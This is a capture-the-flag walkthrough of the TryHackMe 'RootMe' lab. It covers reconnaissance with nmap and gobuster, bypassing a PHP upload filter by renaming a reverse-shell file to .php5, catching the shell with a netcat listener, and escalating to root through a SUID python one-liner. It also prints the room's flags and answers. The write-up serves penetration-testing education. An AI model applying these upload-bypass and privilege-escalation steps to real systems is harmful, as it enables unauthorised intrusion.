

RootMe >_
Intro⌗
This RootMe challenge requires you to exploit a web server and find hidden directories and also get a reverse shell to find the flag through privilege escalation.
Room Link: https://tryhackme.com/room/rrootme
| ⚠️Tools used: |
|---|
| > Ping |
| > Nmap |
| > Netcat |
| > Gobuster |
| > Python |
# Task 1 Deploy the machine⌗
Connect to TryHackMe network through openvpn and deploy the machine.
Click on the start machine button.
Wait for few second after this it will show an ip addr.
My ip: 10.10.156.27
In your case ip may be different.
# Task 2 Reconnaissance⌗
ping scan⌗
Check whether the host is reachable or not across the ip address.
ping 10.10.156.27
PING 10.10.156.27 (10.10.156.27) 56(84) bytes of data.
64 bytes from 10.10.156.27: icmp_seq=1 ttl=63 time=263 ms
64 bytes from 10.10.156.27: icmp_seq=3 ttl=63 time=232 ms
64 bytes from 10.10.156.27: icmp_seq=4 ttl=63 time=297 ms
64 bytes from 10.10.156.27: icmp_seq=5 ttl=63 time=286 ms
^C
--- 10.10.156.27 ping statistics ---
5 packets transmitted, 4 received, 20% packet loss, time 4008ms
rtt min/avg/max/mdev = 231.753/269.480/297.297/24.998 ms
Host is reachable now go to the site, copy paste the ip into your address bar of your browser.
Now view the page source:
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<link rel="stylesheet" href="css/home.css">
<script src="js/maquina_de_escrever.js"></script>
<title>HackIT - Home</title>
</head>
<body>
<div class="main-div">
<p class="title">root@rootme:~#</p>
<p class="description">
Can you root me?
</p>
</div>
<!-- -->
<script>
const titulo = document.querySelector('.title');
typeWrite(titulo);
</script>
</body>
</html>
nmap scan⌗
Run nmap scan to search which ports are open and much more. First create the nmap folder and Run the following command.
command:mkdir nmap
command:cd nmap
command:nmap -sV -oN nmap/rootme 10.10.156.27
command breakdown:
- -sV : Version Detection.
- -oN : store the output into nmap folder.
# Nmap 7.94 scan initiated Wed Sep 27 23:49:49 2023 as: nmap -sV -oN nmap/rootm\
e 10.10.156.27
Nmap scan report for 10.10.156.27
Host is up (0.37s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.\
0)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nma\
p.org/submit/ .
# Nmap done at Thu Sep 28 00:03:21 2023 -- 1 IP address (1 host up) scanned in \
811.92 seconds
Port 22- ssh
Here we are able to see that our SSH port is open. This port isn’t too vulnerable unless we have found someones credentials. Se we will not mess with it.
Port 80- http
It is here were we find a webservice. Lets poke around and see if there is anyting interesting.
QnA:⌗
-
Scan the machine, how many ports are open?
ans: 2 -
What version pf Apache is running?
ans: 2.4.29 -
What service is running on port 22?
ans: ssh
Finding hidden directories⌗
So there may be some hidden directories, we are going to use gobuster tool for that. Run the following command.
command:gobuster dir -u http://10.10.156.27/ -w /home//sumit/ctf/directory-list-2.3-medium.txt
┌──(sumit㉿mr-nob0dy)-[~/ctf/tryhackme]
└─$ gobuster dir -u http://10.10.156.27/ -w /home//sumit/ctf/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.10.156.27/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /home//sumit/ctf/directory-list-2.3-medium.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads (Status: 301) [Size: 314] [--> http://10.10.156.27/uploads/]
/css (Status: 301) [Size: 310] [--> http://10.10.156.27/css/]
/js (Status: 301) [Size: 309] [--> http://10.10.156.27/js/]
/panel (Status: 301) [Size: 312] [--> http://10.10.156.27/panel/]
Progress: 8609 / 220561 (3.90%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 8609 / 220561 (3.90%)
===============================================================
Finished
===============================================================
We found some directories like uploads and panel.
QnA:⌗
- Find directories on the web server using the GoBuster tool.
ans: no answer needed - What is the hidden directory?
ans: /panel/
# Task 3 Getting a shell⌗
Try to reach http://$IP/panel/
we have a section to upload a file, so we have a chance to get the reverse shell so try to upload reverse-shell-php file which is available on the internet. Change the ip address by your ip and change the port in the php file. Now upload the file.
We get some error, we can’t upload php file so we have to find another way to upload file.
Now try to change the file extension from php to php5 or phtml etc.
command:mv php-reverse-shell.php php-reverse-shell.php5
Try to upload the file again.
Wooo file is successfully uploaded…
Now go to http://$IP/uploads/
file is uploaded.
now we use netcat tool to gain the access of reverse shell.
netcat⌗
Run the following command.
command:nc -lvnp 4444
┌──(sumit㉿mr-nob0dy)-[~/ctf/tryhackme/rootme]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.161.225] from (UNKNOWN) [10.10.156.27] 38336
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
09:08:30 up 1:31, 0 users, load average: 0.00, 0.00, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
We get the shell access, now gothrough the all files and folders. try to find user.txt run the following command.
command:find -type f -name user.txt
Run:
command:cd var/www
command:ls
command:cat user.txt
We got our first flag.
Flag:THM{y0u_g0t_a_sh3ll}
# Task 4 Privilege escalation⌗
Privilege Escalation⌗
Now that we have a shell, let’s escalate our privileges to root.
From hint run the following command to search a file with SUID permission and we got the file with the name python.
command:find / -user root -perm /4000
We have a shell but it is not stable. From hint do some research on GTFOBins, Google it. Search for python in gtfobins go the SUID section we got the command.
command:python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
command:cd root
command:ls
command:cat root.txt
By running the above command we get the root access or a stable shell now try to access root.txt file.
we got our 2nd flag….
flag:THM{pr1v1l3g3_3sc4l4t10n}
QnA:⌗
-
Search for files with SUID permission, which file is weird?
ans: /usr/bin/python -
Find a form to escalate your privileges.
ans: no answer needed -
root.txt
ans: THM{pr1v1l3g3_3sc4l4t10n}
Congrats, we have successfully completed the room, hope you learnt something new…⌗
Thanks for the reading…